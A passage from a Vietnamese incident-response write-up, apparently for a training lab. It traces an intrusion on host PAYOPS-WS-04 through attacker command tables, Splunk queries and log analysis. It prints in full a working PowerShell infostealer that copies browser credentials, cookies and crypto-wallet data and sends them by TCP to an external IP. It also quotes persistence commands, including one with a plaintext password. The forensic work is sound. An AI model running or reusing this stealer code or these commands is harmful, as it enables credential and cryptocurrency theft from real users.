| 2026-04-21 00:52:50 | `C:\Windows\system32\cmd.exe /C rename C:\ProgramData\cptchbuild.bin svc_update.exe` | cptchbuild.bin (đã được drop trước đó khoảng 19 giây vào 2026-04-21 00:52:31) được đổi tên thành svc_update.exe để ngụy trang thành service update hợp pháp |
| 2026-04-21 00:53:06 | `C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "C:\ProgramData\svc_update.exe" /sc daily /st 09:00 /ru SYSTEM /f` | Tạo Scheduled Task để duy trì persistence. Task tên "DataSync Update" chạy hàng ngày lúc 9h sáng dưới danh tính SYSTEM |
| 2026-04-21 00:53:24 | `C:\Windows\system32\cmd.exe /C schtasks /run /tn "NextGen\DataSync Update"` | Kích hoạt task vừa tạo ngay lập tức |
| 2026-04-21 00:55:13 | `C:\Windows\system32\cmd.exe /C tasklist \| findstr svc_update` | Attacker sử dụng tasklist để kiểm tra xem scheduled task có khởi chạy payload svc_update.exe thành công hay không |
| 2026-04-21 00:55:46 | `C:\Windows\system32\cmd.exe /C dir C:\ProgramData\svc_update.exe` | Xác nhận payload đã tồn tại trên disk |
| 2026-04-21 00:59:03 | `C:\Windows\system32\cmd.exe /C dir /s /b C:\Users\n.hesham\AppData\Local\Temp\sysinfo*` | Tìm kiếm các tệp bắt đầu với sysinfo trong thư mục Temp của user n.hesham (có thể là attacker đang check output của payload) |
| 2026-04-21 00:59:17 | `C:\Windows\system32\cmd.exe /C dir /s /b C:\Users\n.hesham\AppData\Local\Temp\*.zip` | Tìm các tệp zip trong Temp |
| 2026-04-21 00:59:36 | `C:\Windows\system32\cmd.exe /C dir C:\Users\n.hesham\AppData\Local\Temp\ /od` | Liệt kê các item trong thư mục Temp, sắp xếp theo date/time |
| 2026-04-21 01:00:11 | `C:\Windows\system32\cmd.exe /C dir /s /b C:\Windows\Temp\sysinfo*` | Chuyển sang tìm các tệp có tên bắt đầu với sysinfo ở C:\Windows\Temp thay vì Temp của user n.hesham (có thể là do svc_update.exe chạy dưới danh tính SYSTEM mà thư mục Temp tương ứng của user này nằm ở C:\Windows\Temp nên attacker mới chuyển sang check ở đây) |
| 2026-04-21 01:00:19 | `C:\Windows\system32\cmd.exe /C dir /s /b C:\Users\*\AppData\Local\Temp\sysinfo*` | Tìm trong tất cả user profiles |
| 2026-04-21 01:00:52 | `C:\Windows\system32\cmd.exe /C wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[EventID=1] and EventData[Data[@Name='Image']='C:\ProgramData\svc_update.exe']]" /c:5 /f:text` | Attacker kiểm tra sysmon event id 1 (process creation) để xem svc_update.exe có thực sự chạy không |
| 2026-04-21 01:01:21 | `C:\Windows\system32\cmd.exe /C wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[EventID=3] and EventData[Data[@Name='Image']='C:\ProgramData\svc_update.exe']]" /c:5 /f:text` | Kiểm tra kết nối mạng event id 3 (network connection) để xem svc_update.exe có tạo kết nối ra ngoài không (có thể là kết nối ngược về C2) |
| 2026-04-21 01:03:17 | `C:\Windows\system32\cmd.exe /C schtasks /delete /tn "NextGen\DataSync Update" /f` | Xóa task DataSync Update sau khi không thành công chạy svc_update.exe dưới danh tính SYSTEM |
| 2026-04-21 01:03:34 | `C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "C:\ProgramData\svc_update.exe" /sc daily /st 09:00 /ru NEXTGEN\n.hesham /rp "Welcome@2026" /f` | Tạo lại task "DataSync Update" chạy svc_update.exe dưới danh tính user n.hesham với password "Welcome@2026". Plaintext password được đặt ngay trong commandline cho thấy password của user n.hesham đã bị lộ, có thể attacker lấy được plaintext password từ bước dump lsass trước đó vào khoảng 2026-04-21 00:16:52 |
| 2026-04-21 01:04:02 | `C:\Windows\system32\cmd.exe /C schtasks /run /tn "NextGen\DataSync Update"` | Chạy task ngay lập tức sau khi tạo |
| 2026-04-21 01:05:32 | `C:\Windows\system32\cmd.exe /C schtasks /query /tn "NextGen\DataSync Update" /v /fo list` | Đọc thông tin của task \NextGen\DataSync Update |
| 2026-04-21 01:05:44 | `C:\Windows\system32\cmd.exe /C dir C:\Users\n.hesham\AppData\Local\Temp\*.zip /od` | Kiểm tra lại xem stealer đã thu thập thông tin và output ra tệp zip trong Temp chưa |
| 2026-04-21 01:06:07 | `C:\Windows\system32\cmd.exe /C runas /user:NEXTGEN\n.hesham "C:\ProgramData\svc_update.exe"` | Thử trực tiếp chạy svc_update.exe dưới n.hesham bằng runas |
| 2026-04-21 01:07:16 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 9084) |
| 2026-04-21 01:07:32 | `C:\Windows\system32\cmd.exe /C C:\ProgramData\svc_update.exe` | Thử chạy svc_update.exe trực tiếp dưới context user hiện tại |
| 2026-04-21 01:09:11 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 5484) |
| 2026-04-21 01:09:29 | `C:\Windows\system32\cmd.exe /C C:\ProgramData\svc_update.exe` | Thử chạy svc_update.exe trực tiếp dưới context user hiện tại 1 lần nữa |
| 2026-04-21 01:09:54 | `C:\Windows\system32\cmd.exe /C dir C:\Users\n.hesham\AppData\Local\Temp\*.zip` | Kiểm tra output stealer |



Trong log, sysmon event id 1 chưa ghi nhận process svc_update.exe được thực thi thành công

##### Hoạt động của beacon con rundll32.exe (9084, 5484)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:07:00" (parent_process_id IN (9084, 5484) OR process_id IN (9084, 5484) OR SourceProcessId IN (9084, 5484))
| stats count by EventCode
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:07:00" process_id IN (9084, 5484) EventCode=3
| stats count by DestinationIp DestinationPort
```





2 beacon con rundll32.exe này chỉ duy trì beacon định kì tới c2 ip 100.52.249.75:443

#### Phase 3 — Chuyển sang powershell stealer svc_update.ps1

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 01:20:05 | `C:\Windows\system32\cmd.exe /C rename C:\ProgramData\vodkastealer_emulator.ps1 svc_update.ps1` | Đổi tên payload mới (vodkastealer_emulator.ps1) thành svc_update.ps1 nhằm ngụy trang |
| 2026-04-21 01:20:19 | `C:\Windows\system32\cmd.exe /C schtasks /delete /tn "NextGen\DataSync Update" /f` | Xóa task "DataSync Update" (chạy svc_update.exe) |
| 2026-04-21 01:20:32 | `C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "powershell.exe -nop -w hidden -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks" /sc daily /st 09:00 /ru SYSTEM /f` | Sau những lần thử chạy payload thông qua scheduled task không thành công trước đó, attacker tạo task "DataSync Update" chạy script svc_update.ps1 bằng powershell dưới danh tính SYSTEM với cơ -ep bypass (bypass execution policy - bỏ qua Execution Policy), -w hidden (cửa sổ ẩn), -SkipChecks (tham số của script) |
| 2026-04-21 01:20:44 | `C:\Windows\system32\cmd.exe /C schtasks /run /tn "NextGen\DataSync Update"` | Chạy task ngay lập tức |
| 2026-04-21 01:22:26 | `C:\Windows\system32\cmd.exe /C dir C:\Windows\Temp\sysinfo_* /s /b` | Kiểm tra output (tệp bắt đầu với sysinfo_) |
| 2026-04-21 01:22:39 | `C:\Windows\system32\cmd.exe /C dir C:\Windows\Temp\*.zip /od` | Kiểm tra output (tệp zip) |
| 2026-04-21 01:23:50 | `C:\Windows\system32\cmd.exe /C wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[EventID=1] and EventData[Data[@Name='ParentImage']='C:\Windows\System32\schtasks.exe']]" /c:3 /rd:true /f:text` | Kiểm tra Sysmon event id 1 xem schtasks.exe (parent process) có spawn ra process powershell chạy payload thành công không |
| 2026-04-21 01:24:21 | `C:\Windows\system32\cmd.exe /C wevtutil qe Microsoft-Windows-Sysmon/Operational /q:"*[System[EventID=3] and EventData[Data[@Name='DestinationIp']='165.245.213.184']]" /c:3 /rd:true /f:text` | Kiểm tra xem có kết nối ra C2 ip 165.245.213.184 không |
| 2026-04-21 01:27:18 | `C:\Windows\system32\cmd.exe /C powershell -nop -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks -Verbose` | Chạy trực tiếp script với cờ Verbose để debug |
| 2026-04-21 01:30:53 | `C:\Windows\system32\cmd.exe /C del svc_update.ps1` | Xóa phiên bản cũ |
| 2026-04-21 01:31:45 | `C:\Windows\system32\cmd.exe /C rename vodkastealer_emulator.ps1 svc_update.ps1` | Drop thêm 1 bản khác (event id 11 lúc trước đã cho thấy attacker drop 2 payload vodkastealer_emulator.ps1 vào thời điểm khác nhau do thực thi thất bại) và rename thành svc_update.ps1 |
| 2026-04-21 01:33:41 | `C:\Windows\system32\cmd.exe /C powershell -nop -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks -ExfilPort 4444 -Verbose` | Chạy script svc_update.ps1 trực tiếp, thiết lập port exfil là 4444 qua cờ ExfilPort |
| 2026-04-21 01:37:09 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 8528) |
| 2026-04-21 01:37:33 | `C:\Windows\system32\cmd.exe /C powershell -nop -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks -ExfilPort 4444 -Verbose` | Chạy lại script 1 lần nữa với command tương tự |

##### Hoạt động của beacon con rundll32.exe (pid = 8528)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:37:00" (parent_process_id=8528 OR process_id=8528 OR SourceProcessId=8528)
| stats count by EventCode
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:37:00" process_id=8528 EventCode=3
| stats count by DestinationIp DestinationPort
```



Duy trì beacon tới 100.52.249.75:443

#### Phase 4 — Chuẩn bị lateral movement sang BCHAIN-WS-11

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 01:38:00 | `C:\Windows\system32\cmd.exe /C ping -n 1 BCHAIN-WS-11` | Dùng lệnh ping kiểm tra connection tới host BCHAIN-WS-11 |
| 2026-04-21 01:38:14 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 3744) |
| 2026-04-21 01:43:50 | `C:\Windows\system32\cmd.exe /C ping -n 1 BCHAIN-WS-11` | Sau khi spawn ra beacon con, kiểm tra kết nối tới host BCHAIN-WS-11 |
| 2026-04-21 01:44:12 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 11772) |

### 1.8. Phân tích script VodkaStealer (vodkastealer_emulator.ps1 / svc_update.ps1)

```spl
index=main source!="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:20:05" latest="04/21/2026:01:37:33" EventCode=4104
| table _time Path ScriptBlockText
```



Vào 2026-04-21 01:33:44, sau khi script svc_update.ps1 được thực thi, event id 4104 (script block logging) ghi log lại đầy đủ content của script này:

```
param(
    [string]$ExfilIP   = "165.245.213.184",
    [int]$ExfilPort    = 8443,
    [switch]$SkipChecks
)

$VerbosePreference = "Continue"
Write-Verbose "======================================="
Write-Verbose " VodkaStealer Emulator - Lab 242"
Write-Verbose "======================================="

# ---- PHASE A: Pre-Flight (geo + mutex only, no VM checks) ----

function Invoke-PreFlightChecks {
    Write-Verbose "[*] Running pre-flight checks..."

    $layouts = [System.Globalization.CultureInfo]::InstalledUICulture
    $kbLayouts = Get-WinUserLanguageList -ErrorAction SilentlyContinue
    foreach ($kb in $kbLayouts) {
        if ($kb.LanguageTag -match "^ru|^be") {
            Write-Verbose "[!] Russian/Belarusian keyboard detected - exiting"
            return $false
        }
    }

    try {
        $geoResp = Invoke-RestMethod -Uri "http://ip-api.com/json" -UseBasicParsing -TimeoutSec 5
        $countryCode = $geoResp.countryCode
        if ($countryCode -in @("RU", "BY")) {
            Write-Verbose "[!] Geo-check: $countryCode - exiting"
            return $false
        }
        $script:PublicIP = $geoResp.query
        $script:CountryCode = $countryCode
    } catch {
        $script:PublicIP = "10.0.0.1"
        $script:CountryCode = "US"
    }

    $markerPath = Join-Path $env:TEMP "sysinfo_user_marker.marker"
    if (Test-Path $markerPath) {
        Write-Verbose "[!] Marker file exists - already executed"
        return $false
    }

    $mutexName = "Global\sysinfo_single_instance"
    $createdNew = $false
    try {
        $script:Mutex = [System.Threading.Mutex]::new($true, $mutexName, [ref]$createdNew)
        if (-not $createdNew) {
            Write-Verbose "[!] Mutex exists - another instance running"
            return $false
        }
    } catch { }

    [System.IO.File]::WriteAllText($markerPath, (Get-Date).ToString())
    return $true
}

# ---- PHASE B: Browser Kill ----

function Invoke-BrowserKill {
    Write-Verbose "[*] Killing browser processes to unlock DB files..."
    $browsers = @("chrome", "msedge", "brave", "opera", "vivaldi", "browser", "firefox")
    foreach ($browser in $browsers) {
        $procs = Get-Process -Name $browser -ErrorAction SilentlyContinue
        if ($procs) {
            &amp; taskkill /F /IM "$browser.exe" 2&gt;$null | Out-Null
            Write-Verbose "  Killed: $browser.exe ($($procs.Count) instances)"
        }
    }
}

# ---- PHASE C: Staging Directory ----

function New-StagingDirectory {
    $now = Get-Date
    $dirName = "sysinfo_{0}_{1}_{2:D2}{3:D2}{4:D4}{5:D2}{6:D2}" -f `
        $script:CountryCode, `
        $script:PublicIP, `
        $now.Day,
        $now.Month,
        $now.Year,
        $now.Hour,
        $now.Minute
    $stagingPath = Join-Path $env:TEMP $dirName
    New-Item -ItemType Directory -Path $stagingPath -Force | Out-Null
    Write-Verbose "[*] Created staging dir: $stagingPath"
    return $stagingPath
}

# ---- PHASE D: Data Collection ----

function Invoke-DataCollection {
    param([string]$StagingDir)
    Write-Verbose "[*] Starting data collection..."

    # D1: Installed Software
    Write-Verbose "  Collecting installed software..."
    $uninstallPaths = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*",
        "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*",
        "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"
    )
    $software = foreach ($path in $uninstallPaths) {
        Get-ItemProperty $path -ErrorAction SilentlyContinue |
            Where-Object { $_.DisplayName } |
            Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
    }
    $softwareFile = Join-Path $StagingDir "InstalledSoftware.txt"
    $software | Format-Table -AutoSize | Out-String | Set-Content -Path $softwareFile

    # D2: System Information
    Write-Verbose "  Collecting system information..."
    $sysInfoLines = @(
        "OS Version:       $([Environment]::OSVersion.VersionString)",
        "Computer Name:    $env:COMPUTERNAME",
        "Username:         $env:USERNAME",
        "Domain:           $env:USERDOMAIN",
        "Public IP:        $($script:PublicIP)",
        "Country Code:     $($script:CountryCode)",
        "System Dir:       $env:SystemRoot",
        "Temp Dir:         $env:TEMP",
        "System Time:      $(Get-Date -Format 'yyyy-MM-dd HH:mm:ss')"
    )
    $sysInfoFile = Join-Path $StagingDir "systeminfo.txt"
    $sysInfoLines -join "`r`n" | Set-Content -Path $sysInfoFile

    # D3: Screenshot
    Write-Verbose "  Capturing screenshot..."
    try {
        Add-Type -AssemblyName System.Windows.Forms -ErrorAction SilentlyContinue
        Add-Type -AssemblyName System.Drawing -ErrorAction SilentlyContinue
        $screen = [System.Windows.Forms.Screen]::PrimaryScreen.Bounds
        $bitmap = New-Object System.Drawing.Bitmap($screen.Width, $screen.Height)
        $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
        $graphics.CopyFromScreen($screen.Location, [System.Drawing.Point]::Empty, $screen.Size)
        $graphics.Dispose()
        $screenshotPath = Join-Path $StagingDir "screenshot.png"
        $bitmap.Save($screenshotPath, [System.Drawing.Imaging.ImageFormat]::Png)
        $bitmap.Dispose()
        Write-Verbose "    screenshot saved"
    } catch {
        Write-Verbose "    Screenshot failed: $($_.Exception.Message)"
    }

    # D4: Chromium Browser Data
    Write-Verbose "  Collecting browser data..."
    $browserPaths = @{
        "Chrome"   = "$env:LOCALAPPDATA\Google\Chrome\User Data"
        "Edge"     = "$env:LOCALAPPDATA\Microsoft\Edge\User Data"
        "Brave"    = "$env:LOCALAPPDATA\BraveSoftware\Brave-Browser\User Data"
        "Opera"    = "$env:APPDATA\Opera Software\Opera Stable"
        "OperaGX"  = "$env:APPDATA\Opera Software\Opera GX Stable"
        "Vivaldi"  = "$env:LOCALAPPDATA\Vivaldi\User Data"
        "Yandex"   = "$env:LOCALAPPDATA\Yandex\YandexBrowser\User Data"
        "Chromium" = "$env:LOCALAPPDATA\Chromium\User Data"
    }
    $targetFiles = @("Login Data", "Cookies", "Web Data", "History", "Bookmarks", "Local State")
    foreach ($browserName in $browserPaths.Keys) {
        $browserPath = $browserPaths[$browserName]
        if (Test-Path $browserPath) {
            $browserDir = Join-Path $StagingDir $browserName
            New-Item -ItemType Directory -Path $browserDir -Force | Out-Null
            $defaultProfile = Join-Path $browserPath "Default"
            if (Test-Path $defaultProfile) {
                foreach ($file in $targetFiles) {
                    $src = Join-Path $defaultProfile $file
                    if (Test-Path $src) {
                        Copy-Item -Path $src -Destination $browserDir -Force -ErrorAction SilentlyContinue
                    }
                }
            }
            Write-Verbose "    $browserName data collected"
        }
    }

    # D5: Firefox
    Write-Verbose "  Collecting Firefox data..."
    $firefoxProfiles = "$env:APPDATA\Mozilla\Firefox\Profiles"
    if (Test-Path $firefoxProfiles) {
        $profiles = Get-ChildItem $firefoxProfiles -Directory
        foreach ($profile in $profiles) {
            $ffDir = Join-Path $StagingDir "Firefox_$($profile.Name)"
            New-Item -ItemType Directory -Path $ffDir -Force | Out-Null
            $ffFiles = @("logins.json", "cookies.sqlite", "key4.db", "cert9.db")
            foreach ($file in $ffFiles) {
                $src = Join-Path $profile.FullName $file
                if (Test-Path $src) {
                    Copy-Item -Path $src -Destination $ffDir -Force -ErrorAction SilentlyContinue
                }
            }
            Write-Verbose "    Firefox profile: $($profile.Name)"
        }
    }

    # D6: Wallet and App Data
    Write-Verbose "  Collecting wallet/application data..."
    $appPaths = @{
        "FileZilla"    = "$env:APPDATA\FileZilla\recentservers.xml"
        "OpenVPN"      = "$env:APPDATA\OpenVPN Connect\profiles"
        "Exodus"       = "$env:APPDATA\Exodus"
        "Electrum"     = "$env:APPDATA\Electrum\wallets"
        "Jaxx"         = "$env:APPDATA\com.liberty.jaxx"
        "Guarda"       = "$env:APPDATA\Guarda"
        "LedgerLive"   = "$env:APPDATA\Ledger Live"
        "Trezor"       = "$env:APPDATA\Trezor Bridge"
        "BitcoinCore"  = "$env:APPDATA\Bitcoin"
        "Coinomi"      = "$env:LOCALAPPDATA\Coinomi"
        "Litecoin"     = "$env:APPDATA\Litecoin"
    }
    foreach ($appName in $appPaths.Keys) {
        $appPath = $appPaths[$appName]
        if (Test-Path $appPath) {
            $destDir = Join-Path $StagingDir "Apps\$appName"
            New-Item -ItemType Directory -Path $destDir -Force | Out-Null
            try {
                if ((Get-Item $appPath).PSIsContainer) {
                    Copy-Item -Path "$appPath\*" -Destination $destDir -Recurse -Force -ErrorAction SilentlyContinue
                } else {
                    Copy-Item -Path $appPath -Destination $destDir -Force -ErrorAction SilentlyContinue
                }
                Write-Verbose "    $appName data collected"
            } catch { }
        }
    }

    # D7: Browser Extension Data (Crypto Wallets)
    Write-Verbose "  Collecting browser extension data..."
    $walletExtensions = @{
        "MetaMask"       = "nkbihfbeogaeaoehlefnkodbefgpgknn"
        "Phantom"        = "bfnaelmomeimhlpmgjnjophhpkkoljpa"
        "TrustWallet"    = "egjidjbpglichdcondbcbdnbeeppgdph"
        "CoinbaseWallet" = "hnfanknocfeofbddgcijnmhnfnkdnaad"
    }
    $chromePath = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Extensions"
    if (Test-Path $chromePath) {
        foreach ($walletName in $walletExtensions.Keys) {
            $extId = $walletExtensions[$walletName]
            $extPath = Join-Path $chromePath $extId
            if (Test-Path $extPath) {
                $destDir = Join-Path $StagingDir "Wallets\$walletName"
                New-Item -ItemType Directory -Path $destDir -Force | Out-Null
                Copy-Item -Path "$extPath\*" -Destination $destDir -Recurse -Force -ErrorAction SilentlyContinue
                Write-Verbose "    $walletName extension data collected"
            }
        }
    }
}

# ---- PHASE E: Exfiltration ----

function Invoke-Exfiltration {
    param(
        [string]$StagingDir,
        [string]$TargetIP,
        [int]$TargetPort
    )
    Write-Verbose "[*] Packaging and exfiltrating data..."

    $zipPath = "$StagingDir.zip"
    try {
        Compress-Archive -Path "$StagingDir\*" -DestinationPath $zipPath -Force
        Write-Verbose "  Packaged: $zipPath"
    } catch {
        Write-Verbose "  ZIP failed, sending raw..."
        $zipPath = $null
    }

    try {
        $client = New-Object System.Net.Sockets.TcpClient
        $client.Connect($TargetIP, $TargetPort)
        $stream = $client.GetStream()

        if ($zipPath -and (Test-Path $zipPath)) {
            $data = [System.IO.File]::ReadAllBytes($zipPath)
        } else {
            $infoFile = Join-Path $StagingDir "systeminfo.txt"
            $data = [System.IO.File]::ReadAllBytes($infoFile)
        }

        $stream.Write($data, 0, $data.Length)
        $stream.Flush()
        $stream.Close()
        $client.Close()
        Write-Verbose "[*] Exfiltrated $($data.Length) bytes to ${TargetIP}:${TargetPort}"
    } catch {
        Write-Verbose "[!] Exfiltration failed: $($_.Exception.Message)"
    }
}

# ---- PHASE F: Cleanup ----

function Invoke-SelfCleanup {
    param([string]$StagingDir)
    Write-Verbose "[*] Cleaning up..."

    $zipPath = "$StagingDir.zip"
    if (Test-Path $zipPath) {
        Remove-Item $zipPath -Force -ErrorAction SilentlyContinue
    }
    if (Test-Path $StagingDir) {
        Remove-Item $StagingDir -Recurse -Force -ErrorAction SilentlyContinue
        Write-Verbose "  Deleted staging dir"
    }
    Write-Verbose "[*] Cleanup complete."
}

# ---- MAIN ----

if (-not $SkipChecks) {
    $checksOK = Invoke-PreFlightChecks
    if (-not $checksOK) {
        Write-Verbose "[!] Pre-flight check failed - exiting silently"
        exit 0
    }
} else {
    $script:PublicIP = "10.0.0.1"
    $script:CountryCode = "US"
    Write-Verbose "[*] Pre-flight checks skipped (lab mode)"
}

Invoke-BrowserKill
$stagingDir = New-StagingDirectory
Invoke-DataCollection -StagingDir $stagingDir
Invoke-Exfiltration -StagingDir $stagingDir -TargetIP $ExfilIP -TargetPort $ExfilPort
Invoke-SelfCleanup -StagingDir $stagingDir
Write-Verbose "[*] VodkaStealer emulation complete."
```

Stealer định nghĩa 6 phase thực thi qua các hàm khác nhau, sau đó gọi từng hàm tương ứng:

1. Phase A: Pre-flight checks (Invoke-PreFlightChecks) — Ngừng thực thi nếu phát hiện: bàn phím Nga/Belarus, địa chỉ IP thuộc Nga/Belarus, tệp marker (sysinfo_user_marker.marker) đã tồn tại cho biết stealer đã từng chạy, kiểm tra mutex (Global\sysinfo_single_instance) đảm bảo chỉ 1 instance của malware đang chạy. Nếu qua kiểm tra, tạo tệp marker, ghi ngày hiện tại vào tệp để tránh chạy lại.

2. Phase B: Dừng trình duyệt (Invoke-BrowserKill) — Chạy lệnh taskkill kết thúc các process trình duyệt để unlock các tệp cơ sở dữ liệu, các trình duyệt bị nhắm tới: "chrome", "msedge", "brave", "opera", "vivaldi", "browser", "firefox".

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:20:05" latest="04/21/2026:01:37:33" EventCode=1 parent_process_id=9900
| table _time host user IntegrityLevel LogonId parent_process_id ParentCommandLine process_id CommandLine
| sort _time
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="BCHAIN-WS-11" earliest="04/21/2026:01:50:43" EventCode=1 CommandLine=*taskkill*
| table _time ParentCommandLine CommandLine
```





Các process trình duyệt bị stealer kết thúc:

- PAYOPS-WS-04: msedge.exe và opera.exe

- BCHAIN-WS-11: firefox.exe và msedge.exe

3. Phase C: Tạo thư mục staging (New-StagingDirectory) — Tạo thư mục tạm chứa data cần exfil, đặt tên theo định dạng: sysinfo_<CountryCode>_<PublicIp>_<Day><Month><Year><Hour><Minute>.

4. Phase D: Thu thập dữ liệu (Invoke-DataCollection) — Thu thập thông tin hệ thống victim rồi lưu vào tệp tương ứng, những thông tin này bao gồm:

- Phần mềm đã cài (InstalledSoftware.txt)

- Thông tin hệ thống (systeminfo.txt)

- Ảnh chụp màn hình (screenshot.png)

- Dữ liệu trình duyệt (copy sang staging folder)

- Dữ liệu ứng dụng ví điện tử (copy sang thư mục staging)

- Tiện ích ví trên Chrome (copy sang thư mục staging)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:01:30:00" EventCode=11 process_id=9900
| table _time TargetFilename
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="BCHAIN-WS-11" earliest="04/21/2026:01:50:43" EventCode=11 TargetFilename="C:\\Windows\\Temp\\sysinfo*"
| table _time TargetFilename
```





Thư mục staging được stealer tạo:
